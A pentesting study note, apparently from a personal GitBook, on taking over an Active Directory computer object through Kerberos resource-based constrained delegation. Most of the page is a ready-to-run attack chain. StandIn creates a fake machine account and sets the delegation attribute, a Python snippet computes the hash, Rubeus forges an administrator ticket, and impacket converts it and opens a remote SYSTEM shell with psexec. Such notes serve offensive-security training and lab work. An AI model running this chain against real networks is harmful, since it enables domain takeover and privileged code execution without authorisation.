 ```yaml
---
description: >-
  Gaining code execution with elevated privileges on a remote computer if you
  have WRITE privilege on that computer's AD object.
---
```


# Kerberos Resource-based Constrained Delegation: Computer Object Takeover

## Overview

* You need to have <mark style="color:yellow;">Write privilege on a Domain AD Object</mark>
* Examples include <mark style="color:yellow;">WriteAll</mark> or <mark style="color:yellow;">GenericAll</mark>!
* This usually stems from a user as we can see in the picture below

What does that look like in BloodHound?

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

* We can manipulate the target however we wish
* In other words, we can create or modify properties on the machine account

## BloodHound's Abuse Info (GenericAll)

* We can <mark style="color:yellow;">create a new machine account using a tool called</mark> <mark style="color:red;">**PowerMad**</mark>
* <mark style="color:yellow;">Modify the existing DC account so that it</mark> <mark style="color:red;">trusts</mark> <mark style="color:yellow;">our new machine account</mark>

### <mark style="color:yellow;">When we have Resource-Based Constrained Delegation...</mark>

* The computers specify WHICH machines they trust delegation authentication to
* Since we can write to the DC, we can tell the DC to trust our newly created/fake account
* Once we create the fake account, we can set <mark style="color:yellow;">msDS-AllowedToActOnBehalfOfOtherIdentity</mark> field of the computer account that we are taking over&#x20;
* The DC will trust this computer account with delegation
* We then use <mark style="color:yellow;">Rubeus</mark> to <mark style="color:yellow;">impersonate the Administrator on the DC</mark>
* We need PowerView, PowerMad, and Rubeus

### However, XCT has a better way!

* Upload <mark style="color:yellow;">Rubeus</mark> and <mark style="color:yellow;">StandIn</mark>
  * StandIn is a .NET native solution to perform resource-based constrained delegation

<mark style="color:yellow;">Rubeus:</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

<mark style="color:yellow;">StandIn:</mark>

{% embed url="https://github.com/FuzzySecurity/StandIn/releases" %}

* Create a new computer account using StandIn

```
.\StandIn.exe --computer hacker --make
```

* Obtain SID

```
Get-ADComputer -Filter * | Select-Object Name, SID
```

* Set attribute with StandIn

```
.\StandIn.exe --computer COMPUTER_NAME_HERE --sid SID_HERE

AllowedToActOnBehalfOfOtherIdentity
```

* Use Python to convert MD5 to MD4

```
python3

import hashlib,binascii
hash = hashlib.new('md4', "PLACE_MD5_HASH_HERE".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

* Now we can use Rubeus to craft a ticket to impersonate the administrator

```
.\Rubeus.exe s4u /user:hacker /rc4:MD4_HASH_HERE /impersonateuser:administrator /msdsspn:cifs/computer_name_here /nowrap /ptt

Ticket successfully imported
```

* Now check with klist

```
klist
```

* Unfortunately, we need to do this remotely, not locally
* Copy the ticket obtained from Rubeus above and copy it locally

```
subl ticket.b64 #Paste ticket in here

cat ticket.b64 | base64 -d > ticket.kirbi

impacket-ticketConverter ticket.kirbi ticket.ccache

export KRB5CCNAME='pwd'/ticket.ccache

klist #We can now see the ticket
```

* Lastly, we need to use the ticket!

```
impacket-psexec -k -no-pass domain.local/administrator@computer_name_here -dc-ip 192.168.114.175

C:\Windows\system32>
```

## Kerberos Delegation VS Resource-Based Constrained Delegation

* In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to
* In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them

## Reference

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

{% embed url="https://www.youtube.com/watch?v=xMTCZt5DRB0" %}
